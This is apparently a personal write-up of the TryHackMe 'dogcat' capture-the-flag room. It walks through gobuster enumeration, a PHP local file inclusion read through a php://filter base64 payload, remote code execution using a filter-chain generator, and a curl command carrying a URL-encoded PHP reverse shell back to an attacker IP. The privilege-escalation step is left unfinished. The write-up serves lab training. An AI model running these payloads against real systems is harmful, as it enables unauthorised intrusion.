 # dogcat

https://tryhackme.com/room/dogcat

## Scan

We discover 2 ports (ssh and http)

![image](https://github.com/Roqlane/writeups/assets/78229498/0706358e-69c6-4d42-a1a3-a10ea209d386)

## Website

![image](https://github.com/Roqlane/writeups/assets/78229498/06bd7de1-dbd0-4c61-abeb-57df39a69a12)

So this is a site where you can see pictures of dogs and cats. Pretty nice! I am thinking of just looking at them instead of completing the chall XD

Hmmmm interesting result, seems like we got an lfi.

![image](https://github.com/Roqlane/writeups/assets/78229498/4673de48-4870-42c0-ad2e-173105a7a334)

This LFI is pretty tricky, I think the code behind it is like so:

`include ($file . ".php")`

To get the first flag, I first needed to perform an enum using gobuster:

`gobuster dir -u "http://10.10.242.241" -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php, .txt`

Then I discovered that there is a flag.php file. I tried to access it but it didn't print out any results. So we need a way to get its content. For that I use a payload from that article https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md.

Put it on practice: 

`http://10.10.17.47/?view=php://filter/convert.base64-encode/resource=cats/../../../../var/www/html/flag`

Got a base64 response so I used cyberchef to decode it

![image](https://github.com/Roqlane/writeups/assets/78229498/41946361-1ec4-4313-8a4a-9c80952ac182)

## Web shell

Now we to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper (thx to this site: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams) and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

![image](https://github.com/Roqlane/writeups/assets/78229498/9363c59d-214b-4d65-8fda-b02944433f4e)


![image](https://github.com/Roqlane/writeups/assets/78229498/029728ae-1bef-4cd0-8828-0363ed980874)

Execute `ls%20..%2F` on the cmd param and you found out that there is the second flag

![image](https://github.com/Roqlane/writeups/assets/78229498/bc106a42-7a8e-4b8a-af42-a2b526eda277)

![image](https://github.com/Roqlane/writeups/assets/78229498/1ce01b76-9738-4661-b1d3-e9dc2d061995)

## Reverse shell

![image](https://github.com/Roqlane/writeups/assets/78229498/a5fe8bbc-12a5-4de9-9cca-f82e54845521)

I put the result in the FILTERS variable

`curl --user-agent "PENTEST" "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`

![image](https://github.com/Roqlane/writeups/assets/78229498/2fe4aa6a-e835-4bd8-aedd-88a0c4fc328e)

## privesc

Well...

![image](https://github.com/Roqlane/writeups/assets/78229498/a4c4198b-a6e0-4ab8-921a-b20e20f2ccca)

Or

TODO env root

![image](https://github.com/Roqlane/writeups/assets/78229498/b8083628-f747-46d3-841c-574ed560bbd6)

If I remember well, we are in a docker container

